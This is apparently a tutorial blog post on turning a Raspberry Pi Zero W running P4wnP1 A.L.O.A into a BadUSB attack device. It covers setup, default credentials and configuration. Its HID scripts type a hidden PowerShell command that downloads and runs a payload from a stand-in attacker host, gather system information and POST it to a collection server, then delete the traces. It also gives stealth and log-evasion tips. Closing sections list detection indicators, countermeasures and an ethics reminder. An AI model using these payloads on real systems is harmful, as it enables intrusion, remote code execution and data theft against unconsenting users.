





BadUSB attacks represent one of the most devastating hardware-based attack vectors in cybersecurity. In this comprehensive guide, I'll walk through building a professional-grade BadUSB attack platform using the Raspberry Pi Zero W and the powerful P4wnP1 A.L.O.A framework. This setup can execute sophisticated payloads in seconds while maintaining stealth and providing remote access capabilities.
Table of Contents
- Attack Overview
- Hardware Requirements
- Firmware Installation
- Initial Configuration
- Creating Attack Templates
- Attack Execution
- Advanced Techniques
- Defense Strategies
Attack Overview
BadUSB attacks exploit the inherent trust that operating systems place in USB Human Interface Devices (HIDs). By emulating keyboards and mice, attackers can execute arbitrary commands with the same privileges as the logged-in user - all within seconds of insertion.
Hardware Requirements
The beauty of this BadUSB platform lies in its simplicity and effectiveness. Here's what you'll need:
Essential Components:
- Raspberry Pi Zero W: Compact size with WiFi capabilities (~$10)
- MicroSD Card: 8GB or larger for firmware and payload storage
- SD Card Reader: For flashing firmware and data extraction
- Micro USB Cable: For power and data connection
- Optional: Custom case for stealth operations
Why Raspberry Pi Zero W?
The original Pi Zero W is perfect for this application - the Zero 2 W's additional processing power isn't necessary for BadUSB attacks, making the original more cost-effective while maintaining full functionality.
Firmware Installation
P4wnP1 A.L.O.A (A Little Offensive Arsenal) transforms the Raspberry Pi into a sophisticated attack platform with web-based management.
Downloading Required Software
First, download the necessary components:
# Download P4wnP1 A.L.O.A image from:
# https://github.com/RoganDawes/P4wnP1_aloa/releases
# Download Raspberry Pi Imager from:
# https://downloads.raspberrypi.com/imager/imager_latest.exeFlashing Process
The flashing process is straightforward with the official Raspberry Pi Imager:
- Prepare SD Card: Insert your microSD card into the SD card reader
- Connect Reader: Plug the SD card reader into your computer
- Launch Imager: Open the Raspberry Pi Imager application
- Select Device: Choose "Raspberry Pi Zero W" from device list
- Choose Image: Select "Use custom image" and browse to the downloaded P4wnP1 A.L.O.A image
- Select Storage: Choose your SD card from the storage options
- Flash: Click "Next" and wait for the flashing process to complete
# Flashing typically takes 5-10 minutes depending on SD card speed
# Verify successful flash by checking for boot partition
# Safely eject SD card when completeHardware Setup
Understanding the Pi Zero W's USB configuration is crucial:
USB Port Functions:
- Power Port: Only provides power - no data connection
- USB/Data Port: Handles both power and data - use this for attacks
- Critical: Connect to the USB port (not power port) for BadUSB functionality
Initial Configuration
Once powered up, the Pi Zero W creates its own access point for remote management.
Connecting to P4wnP1
# Look for WiFi network: P4wnP1-XXXX (with bomb emojis)
# Default credentials:
# SSID: P4wnP1-****
# Password: MaMe82-P4wnP1
# Web interface access:
# URL: http://172.24.0.1:8000
# Username: admin
# Password: admin (change immediately)After connecting to the access point, navigate to the web interface where you'll find a comprehensive dashboard for managing your BadUSB operations.
Creating Attack Templates
P4wnP1 A.L.O.A uses a template-based system for managing different attack components. Let's walk through creating each template type:
USB Settings Template
Configure how the device appears to the target system:
# USB Configuration:
# Device Type: Keyboard and Mouse (HID)
# Vendor ID: Custom or default
# Product ID: Randomized for stealth
# Device Description: Generic USB Keyboard
# Save with descriptive name: "HID_Keyboard_Template"WiFi Settings Template
Configure wireless capabilities for remote access and data exfiltration:
# WiFi Configuration:
# Working Mode: Access Point (AP)
# Network Name: Custom SSID (avoid suspicious names)
# Password: Strong WPA2 password
# Channel: Auto or specific channel
# Save as: "WiFi_AP_Template"Trigger Actions Template
Define when and how payloads execute:
Common Trigger Types:
- Boot Trigger: Execute immediately on connection
- Delay Trigger: Wait specified time before execution
- Service Trigger: Execute when specific services start
- Group Trigger: Chain multiple payloads together
# Example Trigger Configuration:
# Trigger Type: Boot
# Delay: 3 seconds (allow system to recognize device)
# Payload: Reference to HID script
# Save as: "Immediate_Execute_Trigger"HID Script Creation
Write the actual payload that will execute on the target system:
P4wnP1 comes with several pre-installed scripts, but custom scripts provide maximum flexibility:
// Example HID Script (JavaScript-based)
layout('US'); // Set keyboard layout
press("GUI r"); // Open Run dialog
delay(500);
type("powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command \"");
type("IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')\"");
press("ENTER");
// Clean up evidence
delay(2000);
press("GUI r");
delay(500);
type("eventvwr");
press("ENTER");Attack Execution
With all templates created, it's time to combine them into a deployable configuration.
Generic Settings Configuration
This is where all components come together:
- Select USB Template: Choose your HID keyboard configuration
- Select WiFi Template: Choose your AP configuration
- Select Trigger Template: Choose your execution trigger
- Select HID Script: Choose your payload script
- Save Configuration: Store as "Complete_Attack_Config"
- Deploy: Select configuration and click "Deploy"
# Deployment Process:
# 1. Configuration loads into Pi's memory
# 2. Services restart with new settings
# 3. Device ready for attack execution
# 4. Connect to target via USB data port
# 5. Payload executes automatically based on triggerAttack Execution Flow
When connected to a target system, the attack unfolds rapidly:
- 0-2 seconds: Device enumeration and driver installation
- 2-5 seconds: Trigger conditions met, payload begins
- 5-30 seconds: Payload execution (varies by complexity)
- 30+ seconds: Cleanup and stealth operations
Advanced Techniques
Professional BadUSB operations require additional considerations for stealth and effectiveness.
Multi-Stage Payloads
// Stage 1: Reconnaissance
function gatherInfo() {
press("GUI r");
delay(300);
type("cmd /c systeminfo > %temp%\\info.txt");
press("ENTER");
}
// Stage 2: Data Exfiltration
function exfiltrateData() {
press("GUI r");
delay(300);
type("powershell -Command \"");
type("$data = Get-Content $env:temp\\info.txt; ");
type("Invoke-WebRequest -Uri 'http://172.24.0.1:8080/collect' -Method POST -Body $data\"");
press("ENTER");
}
// Stage 3: Cleanup
function cleanup() {
press("GUI r");
delay(300);
type("cmd /c del %temp%\\info.* /q");
press("ENTER");
}Data Storage and Retrieval
The SD card serves dual purposes - firmware storage and data collection:
# Data collection methods:
# 1. Direct file copying to mounted SD card
# 2. WiFi exfiltration to P4wnP1 web server
# 3. Network tunneling through established connections
# 4. Staged collection for later retrieval
# Access collected data:
# - Remove SD card and insert into reader
# - Mount on analysis machine
# - Collected data typically in /root/loot/ directoryStealth Considerations
- Device Masquerading: Appear as legitimate hardware (mouse, keyboard)
- Timing Attacks: Execute during user inactivity periods
- Log Evasion: Clear execution traces and event logs
- Physical Concealment: Use cases that resemble legitimate USB devices
Defense Strategies
Understanding BadUSB attacks enables better organizational defenses:
Primary Defense Mechanisms:
- USB Port Controls: Disable unnecessary USB ports
- Device Whitelisting: Allow only approved hardware
- User Education: Train users to recognize suspicious devices
- Endpoint Protection: Monitor for unusual HID activity
- Physical Security: Prevent unauthorized device insertion
Detection Indicators
# BadUSB attack indicators:
# - Rapid keyboard input without user interaction
# - Unexpected PowerShell or command prompt activity
# - New device enumeration events
# - Outbound network connections from system processes
# - Unusual file system activity in temp directoriesTechnical Countermeasures
# PowerShell execution policy hardening
Set-ExecutionPolicy Restricted -Force
# USB device audit logging
auditpol /set /subcategory:"Plug and Play Events" /success:enable
# Registry modification to block USB storage
reg add "HKLM\SYSTEM\CurrentControlSet\Services\USBSTOR" /v "Start" /t REG_DWORD /d 4Troubleshooting and Support
BadUSB development can present various challenges. Here are common issues and solutions:
Common Problems
- Device Not Recognized: Check USB port selection (data vs power)
- Payload Failures: Verify keyboard layout and timing delays
- WiFi Issues: Confirm channel selection and password strength
- Script Errors: Test syntax in P4wnP1's script editor
Ethical Considerations
BadUSB attacks are incredibly powerful and potentially destructive. Responsible use requires:
- Proper Authorization: Always obtain written permission before testing
- Scope Limitations: Stay within agreed testing boundaries
- Data Protection: Secure any collected information appropriately
- Disclosure: Report findings through proper channels
- Education: Share knowledge to improve overall security
Conclusion
The Raspberry Pi Zero W combined with P4wnP1 A.L.O.A creates a formidable BadUSB attack platform that rivals commercial solutions at a fraction of the cost. This project demonstrates the critical importance of USB security controls and the need for comprehensive endpoint protection strategies.
Understanding these attack vectors enables security professionals to better assess organizational risk and implement appropriate countermeasures. The speed and stealth of BadUSB attacks make them particularly dangerous, requiring proactive defense strategies rather than reactive detection.
Remember: with great power comes great responsibility. Use these techniques ethically and always within the bounds of proper authorization.